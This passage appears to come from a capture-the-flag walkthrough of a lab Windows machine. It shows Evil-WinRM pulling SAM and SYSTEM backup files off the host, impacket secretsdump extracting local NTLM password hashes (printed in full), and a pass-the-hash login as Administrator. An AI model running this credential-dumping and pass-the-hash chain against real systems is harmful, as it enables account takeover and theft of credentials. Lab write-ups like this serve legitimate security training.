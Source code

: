 ```bash

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2020   7:28 PM          49152 sam.bak
-a----        9/18/2020   7:28 PM       17457152 system.bak

*Evil-WinRM* PS C:\users\jareth\documents> download system.bak
Info: Downloading system.bak to ./system.bak

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\users\jareth\documents> download sam.bak
Info: Downloading sam.bak to ./sam.bak

                                                             
Info: Download successful!

```

> **Cracking Backup Files & Privilege Escalation**
> 

`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak local`

```bash

[*] Target system bootKey: 0xd676472afd9cc13ac271e26890b87a8c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::
[*] Cleaning up...
```

`evil-winrm -u Administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a -i $target_ip`

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
year-of-the-owl\administrator
```

`evil-winrm -u administrator -p aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a -i $target_ip` 

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
year-of-the-owl\administrator
```

# Appendix
